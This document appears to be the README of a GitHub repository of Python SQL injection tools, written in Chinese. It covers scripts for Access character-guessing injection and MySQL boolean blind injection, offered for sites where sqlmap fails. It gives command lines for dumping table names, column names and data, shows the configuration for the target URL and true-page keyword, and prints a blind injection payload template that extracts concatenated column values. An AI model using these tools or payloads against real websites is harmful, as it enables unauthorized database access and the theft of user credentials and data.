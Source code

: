 # 1.写这些脚本的目的

解决sqlmap不能跑的站点，并且手工注入又会消耗大量的时间和精力的情况。

# 2.用法

## 2.1 ACCESS-Injection

Blog ： http://admintony.com/ACCESS注入之逐字猜解法-Python工具.html
```bash
python3 inj.py -u Url --tables --keyword=true_page_keyword [--thread=20] #爆表名,--thread参数可选，默认为10

python3 inj.py -u Url -T table_name --columns --keyword=true_page_keyword [--thread=20] #爆表名

python3 inj.py -u Url -T table_name -C col_name1,col_name2... --dump --keyword=keyword[--thread=20] #爆数据
```
## 2.2 MYSQL-Bind-injection

Blog ： http://admintony.com/基于布尔盲注的脚本编写实例.html

1>第一处

```python
#Target URL
url = "http://targetURL//index.php?a=index&f=ilist&p="
#keyword 用于判断页面是否正确
keyword ="keyword"
```

将代码开头的URL和keyword修改

**注意：**

keyword 为http://targetURL/index.php?p=-1 or 1=1 和 http://targetURL/index.php?p=-1 or 1=2 页面中只出现在前者页面而不出现在后者页面中的值

URL 中存在注入的参数放到最后，并且不跟参数值，程序会自动加上参数值

2>第二处：需要使用什么功能就把什么功能的代码注释取消即可，至于该改的table_name,column_name自己改一下
```python
    info = Info()
    #注入当前数据库的用户
    #info.user()
    #注入数据库的版本
    #info.version()
    #注入当前数据库的名字
    #info.database()
    #注入表名
    #run()
    #注入列名
    run_column("shi_user")
    #注入数据
    #columnL = ["uid","pwd"]
    #run_value("pw_user",*columnL)```
    
3>爆列中数据的时候，列名请填写两个，在程序写死了，如果需要多个列名请修改第334行代码：

e.g.三个列
```python
payload = "-1 or ascii(substr((select concat(%s,0x7c,%s,0x7c,%s) from %s limit %s,1),%s,1))=%s" \
% (self.column[0],self.column[1],self.column[2],self.table, self.i, x, n)
```
# 3.目录

```html
###########
├── Readme.md               // 帮助文档 
├── ACCESS-Injection        // ACCESS的逐字猜解法脚本
│   ├── injection.py        //主程序
│   ├── table.txt           //常用表名，来自sqlmap
│   ├── column.txt          //常用列名，来自sqlmap
├── MYSQL-Bind-injection    //mysql基于布尔盲注的脚本
│   ├── injection.py        //主程序

```
